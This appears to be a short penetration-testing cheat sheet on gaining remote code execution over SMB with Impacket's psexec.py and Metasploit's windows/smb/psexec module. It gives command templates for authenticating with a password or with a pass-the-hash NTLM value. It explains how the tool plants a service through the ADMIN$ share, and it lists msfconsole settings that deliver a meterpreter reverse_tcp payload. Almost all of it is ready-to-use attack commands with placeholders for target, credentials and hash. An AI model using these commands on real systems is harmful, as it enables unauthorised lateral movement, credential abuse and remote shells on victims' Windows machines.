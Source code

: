 

# usage 
```bash
psexec.py USUERNAME:PASSWORD@IP 
# pass hash
psexec.py USUERNAME:@IP -hashes HASH # need all NTLM hash

psexec.py SHARE/ADMIN_ACCOUNT:"PASSWORD\!"@IP 
#  creates a remote service by uploading a randomly-named executable to the hidden Windows ADMIN$ share, registering a service via RPC and the Windows Service Control Manager, and then communicating over named a named pipe

# flags
-hashes # passhash


```


## psexec over msfconsole
```ruby
use windows/smb/psexec
set rhosts TARGET IP
set smbdomain DOMAIN
set smbpass and smbuser
set target 2
set payload windows/x64/meterpreter/reverse_tcp
```


---
Tags: #psexec #impackets #smb #passhash
